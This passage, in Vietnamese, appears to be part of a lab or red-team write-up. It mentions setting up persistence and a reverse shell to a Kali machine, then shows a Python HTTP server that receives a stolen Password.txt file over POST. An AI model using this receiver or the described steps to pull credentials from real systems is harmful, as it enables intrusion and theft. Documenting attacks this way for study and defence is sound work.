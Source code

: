 - Thiết lập `persistent` đồng thời `reverse shell` về máy chủ `Kali`
![image](assets/images4/4.png)

#### 3. Data Exfiltration

- Sau khi thấy được file `Password.txt`, attacker thực hiện mở `POST` method để lấy file về

```python
from http.server import BaseHTTPRequestHandler, HTTPServer

class SimpleHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(length)
        with open("Password.txt", "wb") as f:
            f.write(post_data)
        
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b"File received successfully")

if __name__ == "__main__":
    server = HTTPServer(("0.0.0.0", 8000), SimpleHandler)
    print("Listening on port 8000...")
    server.serve_forever()
```
![image](assets/images4/5.png)
